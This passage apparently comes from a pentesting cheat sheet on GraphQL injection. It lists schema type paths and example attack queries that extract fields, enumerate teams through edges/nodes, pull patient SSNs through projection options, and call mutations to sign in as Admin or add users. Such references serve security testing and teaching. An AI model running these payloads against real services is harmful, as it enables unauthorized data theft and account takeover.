 ```php
- Query (pentest) -> Pentest (lead_pentester) -> Pentester (user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (pentests) -> Pentest (lead_pentester) -> Pentester (user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (query) -> Query (assignable_teams) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (query) -> Query (skills) -> Skill
```


## Exploit

### Extract data

```js
example.com/graphql?query={TYPE_1{FIELD_1,FIELD_2}}
```

![HTB Help - GraphQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/Images/htb-help.png?raw=true)



### Extract data using edges/nodes

```json
{
  "query": "query {
    teams{
      total_count,edges{
        node{
          id,_id,about,handle,state
        }
      }
    }
  }"
} 
```

### Extract data using projections

:warning: Don’t forget to escape the " inside the **options**.

```js
{doctors(options: "{\"patients.ssn\" :1}"){firstName lastName id patients{ssn}}}
```


### Use mutations

Mutations work like function, you can use them to interact with the GraphQL.

```javascript
# mutation{signIn(login:"Admin", password:"secretp@ssw0rd"){token}}
# mutation{addUser(id:"1", name:"Dan Abramov", email:"dan@dan.com") {id name email}}
```
